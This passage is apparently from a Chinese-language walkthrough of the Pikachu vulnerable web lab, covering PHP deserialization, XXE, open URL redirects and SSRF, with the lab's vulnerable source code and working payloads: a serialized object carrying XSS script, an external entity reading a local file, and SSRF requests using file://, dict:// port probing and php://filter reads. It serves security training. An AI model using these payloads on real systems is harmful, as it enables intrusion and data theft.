	public $name = "henry";
	public $sex = "man";
	public $age = 7;
}

$example = new DemoClass();
echo serialize($example);
#输出结果： O:9:"DemoClass":3:{s:4:"name";s:5:"henry";s:3:"sex";s:3:"man";s:3:"age";i:7;}

?>
```

<br>

### unserialize反序列化

反序列化简单来说就是将序列化后的字符串还原成对象, 如下代码所示

```php
<?php
class DemoClass{
	public $name = "henry";
	public $sex = "man";
	public $age = 7;
}

$example = new DemoClass();
$SerialString = serialize($example); 
$Object = unserialize($SerialString);

print($Object->name); #输出: henry

?>
```

<br>

### 涉及魔法函数

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题

如下所示为常见的魔法函数:

- `__construct()`: 当一个对象创建时被调用
- `__destruct()`: 当一个对象销毁时被调用
- `__toString()`: 当一个对象被当做一个字符串使用
- `__sleep()`: 在对象被序列化之前执行
- `__wakeup()`: 在序列化之后立即被调用

<br>

## 代码审计

通常反序列化漏洞的发现及利用是代码审计实现的

审计unser.php, 前端将`$_POST['o']`变量传递给后台, 后台将此变量反序列化成对象, 然后输出该对象的test属性

由此, 可通过构造序列化的字符串传递给`$_POST['o']`来实现漏洞利用

```php
class S{
    var $test = "pikachu";
    function __construct(){
        echo $this->test;
    }
}

//O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
$html='';
if(isset($_POST['o'])){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }
}
?>
```

<br>

## 利用实例

自行新建一个php文件来生成用于漏洞利用的字符串: `O:1:"S":1:{s:4:"test";s:33:"<script>alert('Hacking')</script>";}`

```php
<?php
class S{
    var $test = "<script>alert('Hacking')</script>";
}

$example = new S();
$SerialString = serialize($example); 
echo $SerialString; #输出: O:1:"S":1:{s:4:"test";s:33:"<script>alert('Hacking')</script>";}

?>
```

<br>

将此字符串通过POST请求传递给后台, 随后触发XSS反射型漏洞


<br>

# 十四、XXE漏洞

## 概述		

XXE漏洞, 又称xml外部实体注入漏洞，概括来说就是攻击者通过向服务器注入指定的xml实体内容, 从而让服务器按照指定的配置执行, 也就是说服务端接收和解析了来自客户端的xml数据, 由于没有对此数据做严格的安全控制, 从而导致xml外部实体注入

在现在很多语言里用于解析xml的函数, 默认禁止解析外部实体内容, 从而就避免了此漏洞。以PHP为例, 在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的

本章提供的案例中,为了模拟漏洞,通过手动指定`LIBXML_NOENT`选项开启了xml外部实体解析

<br>

## XML+DTD基本语法

DTD(Document Type Definition), 即文档定义类型, 用来为XML文档定义语义约束

```xml-dtd
<!--声明xml的版本号-->
<?xml version="1.0"?>

<!--定义此文档是note类型的文档-->
<!DOCTYPE note[ 

<!--外部实体声明-->        
<!ENTITY entity-name SYSTEM "URI/URL">

]>

<!--文档元素--> 
<note>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

<br>

## 代码审计

前端将`$_POST['xml']`传递给变量`$xml,` 由于后台没有对此变量进行安全判断就直接使用`simplexml_load_string`函数进行xml解析, 从而导致xxe漏洞

```xml-dtd
$html='';
//考虑到目前很多版本里面libxml的版本都>=2.9.0了,所以这里添加了LIBXML_NOENT参数开启了外部实体解析
if(isset($_POST['submit']) and $_POST['xml'] != null){


    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}

?>
```

<br>

因此可以构建恶意xml通过post请求提交给后台, 以此实现xml外部实体注入, 这里先构建个简单的xml提交试试, 页面成功回显"hello world"

```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
 
<!DOCTYPE note [
    <!ENTITY test "hello world">
]>
 
<name>&test;</name>
```


<br>	

## 利用实例

xml外部引用不仅支持file协议, 还支持http, ftp协议

如下代码所示, 利用file协议读取网站根目录下的flag.txt文件

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY[ 
<!ENTITY file SYSTEM "file:///E:/phpStudy/WWW/flag.txt">
]>
<x>&file;</x>
```


<br>

# 十五、URL重定向

## 概述

不安全的url跳转问题可能发生在一切执行了url地址跳转的地方

如果后端采用了前端传进来的参数作为了跳转的目的地,而又没有做判断的话, 则可能发生"跳错对象"的问题

若一个比较有名的域名出现了URL重定向漏洞, 则黑客可以通过该域名跳转至自己的钓鱼页面, 以此实现迷惑用户

<br>

## 代码审计

查看urlredirect.php源码,前端将传递 `$_GET['url']`后台, 后台没有对其作任何安全判断就赋值给了变量`$url`, 然后通过`header`函数进行跳转

```php
$html="";
if(isset($_GET['url']) && $_GET['url'] != null){
    $url = $_GET['url'];
    if($url == 'i'){
        $html.="<p>好的,希望你能坚持做你自己!</p>";
    }else {
        header("location:{$url}");
    }
}
```

<br>

## 利用实例

点击前两行超链接都没什么反应, 点击第三行超链接时url跳转至unsafere.php页面

使用burpsuite进行抓包, 通常来讲存在URL重定向漏洞的页面的状态码为302

	


<br>

将参数url修改成要跳转的链接

	

<br>

# 十六、SSRF漏洞

## 概述

SSRF(Server-Side Request) , 又称为服务器请求伪造, 其形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能,但又没有对目标地址做严格过滤与限制, 导致攻击者可以传入任意的地址来让后端服务器对其发起请求,并返回对该目标地址请求的数据

<br>

## SSRF(curl)

Curl命令支持多种协议, 如http、https、ftp、file、gopher协议等等

首先点击第一关的链接, 点进去可以看到传递了参数url, 此值采用了http协议进行访问


<br>

利用file协议让服务器访问自己本地的文件, 构造的payload为`http://127.0.0.1/pikachu/vul/ssrf/ssrf_curl.php?url=file:///E:/phpStudy/WWW/flag.txt`

	


<br>利用dict协议扫描3306端口是否开放: `http://127.0.0.1/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:3306`	

	

<br>

## SSRF(file_get_content)	

该关卡会用到`file_get_content`函数, 该函数的作用是读取文件的内容, 可直接读取主机绝对路径或相对路径的文件, 也可以使用php伪协议进行利用

```
http://127.0.0.1:81/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///E:/phpStudy/WWW/flag.txt
```


<br>

可通过php伪协议读取指定文件	

```
http://127.0.0.1:81/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=E:/phpStudy/WWW/flag.txt
```


